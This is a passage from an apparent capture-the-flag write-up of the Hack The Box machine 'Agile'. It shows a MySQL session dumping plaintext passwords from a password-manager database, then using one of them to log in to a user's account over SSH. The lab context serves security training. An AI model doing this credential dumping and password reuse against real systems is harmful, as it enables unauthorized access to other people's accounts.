 ```console
mysql> SHOW TABLES;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.01 sec)

mysql> DESC passwords;
+-------------------+--------------+------+-----+---------+----------------+
| Field             | Type         | Null | Key | Default | Extra          |
+-------------------+--------------+------+-----+---------+----------------+
| id                | int          | NO   | PRI | NULL    | auto_increment |
| created_date      | datetime     | YES  |     | NULL    |                |
| last_updated_data | datetime     | YES  |     | NULL    |                |
| url               | varchar(256) | YES  |     | NULL    |                |
| username          | varchar(256) | YES  |     | NULL    |                |
| password          | varchar(256) | YES  |     | NULL    |                |
| user_id           | int          | YES  | MUL | NULL    |                |
+-------------------+--------------+------+-----+---------+----------------+
7 rows in set (0.00 sec)

mysql> SELECT id,username,password,url FROM passwords;
+----+----------+----------------------+----------------+
| id | username | password             | url            |
+----+----------+----------------------+----------------+
|  3 | 0xdf     | 762b430d32eea2f12970 | hackthebox.com |
|  4 | 0xdf     | 5b133f7a6a1c180646cb | mgoblog.com    |
|  6 | corum    | 47ed1e73c955de230a1d | mgoblog        |
|  7 | corum    | 9799588839ed0f98c211 | ticketmaster   |
|  8 | corum    | 5db7caa1d13cc37c9fc2 | agile          |
+----+----------+----------------------+----------------+
5 rows in set (0.00 sec)
```

I got corum's password so try to login SSH.

```console
root@kali:~/htb/Machines/Agile# ssh corum@superpass.htb  # enter 5db7caa1d13cc37c9fc2
corum@superpass.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

Last login: Fri Aug  4 07:34:50 2023 from 10.10.16.11
corum@agile:~$
```
